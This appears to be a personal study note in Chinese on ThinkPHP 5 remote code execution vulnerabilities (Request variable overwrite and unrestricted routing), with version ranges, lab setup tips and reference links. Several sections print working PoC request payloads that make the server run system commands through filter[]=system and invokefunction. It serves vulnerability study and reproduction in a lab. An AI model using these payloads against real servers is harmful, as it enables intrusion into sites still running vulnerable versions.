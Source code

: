 ```yaml
---
title: 
categories:
- Network_Security
- Web
- Framework
tags:
- Network_Security
- Web
- Framework
---
```


# ThinkPHP 相关漏洞浅略学习

1. 目前学习的主要思路就是大概了解漏洞原理，不过于深入代码，记录复现时的一些问题和经验。

2. 主要参考文章：

    > https://www.cnblogs.com/nongchaoer/p/12029478.html
    > https://blog.csdn.net/qq_39495209/article/details/107864262
    > https://blog.csdn.net/qq_39495209/article/details/107486928
    > https://www.cnblogs.com/lingzhisec/p/15728886.html
    > https://hyasin.github.io/2020/09/08/ThinkPHP%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/

3. 环境搭建的注意事项：

    1. 使用 composer 创建项目时，指定默认的 tp 版本都是最新版，更改版本的方式就是在创建的项目下执行：
        `composer require topthink/framework 5.x.x`
    2. 注意下载对应的 captcha 版本。

## 1. ThinkPHP 5 相关漏洞

### 1.1 ThinkPHP5 RCE - 核心类 Request 其中变量被覆盖导致 RCE

1. 漏洞原理大概就是 `Request` 类的 `_method` 变量用户可控，传入魔术方法 `__construct`（构造函数）后被执行，后面的参数用于指定恶意方法。
    变量 `s` 应该是 PATH_INFO 模式下的**路由**参数。
    ![image-20240425201132747](ThinkPHP/image-20240425201132747.png)

2. 对于版本小于 5.0.13 的，其 PoC 如下：

    ```html
    POST ?s=index HTTP/1.1
    ...
    _method=__construct&filter[]=system&method=GET&get[]=whoami
    ```

3. 对于版本 >= 5.0.13 且 <= 5.0.23 的，其需要开启 debug，5.0.10 后 debug 自动关闭。
    debug 的开启在 `application - config.php`：
    ![image-20240425155915988](ThinkPHP/image-20240425155915988.png)
    其余不变。
    特殊情况就是，如果存在 captcha 模块和对应的 captcha 路由时，可以不需要开启 debug，此时的 PoC 就是：

    ```html
    POST ?s=captcha HTTP/1.1
    ...
    _method=__construct&filter[]=system&method=GET&get[]=whoami
    ```

4. 对于版本 <= 5.1.2，执行 PoC 时会报错，指出 Env 相关错误。同时 5.1 版本默认 debug 模式也是**关闭**的。经过测试，这种 PoC 的版本最多到 5.1.7，即 5.1.3 <= Version <= 5.1.7。

### 1.2 ThinkPHP5 RCE - 路由控制不严谨导致可以调用任意类致使 RCE

1. 漏洞成因大概是：ThinkPHP 默认没有开启**强制路由**，而且默认开启**路由兼容模式**。那么我们可以用兼容模式来调用控制器 Controller，当没有对控制器过滤时，我们可以调用任意的方法来执行。所有用户参数都会经过 `Request` 类的 `input` 方法处理，该方法会调用 `filterValue` 方法，而 `filterValue` 方法中使用了 `call_user_func` ，尝试利用这个方法来执行命令。

2. 版本 <= 5.0.22 时存在漏洞，版本 <= 5.1.30 时也存在，以后的版本采用正则匹配校验，因此漏洞修复，常见的 PoC 如下：
    ```html
    5.0.x
    ?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=calc
    5.1.x
    ?s=index/think\Request/input&filter[]=system&data=calc
    ?s=index/think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=calc
    ```

3. todo：5.0.24 存在序列化口时存在反序列化利用。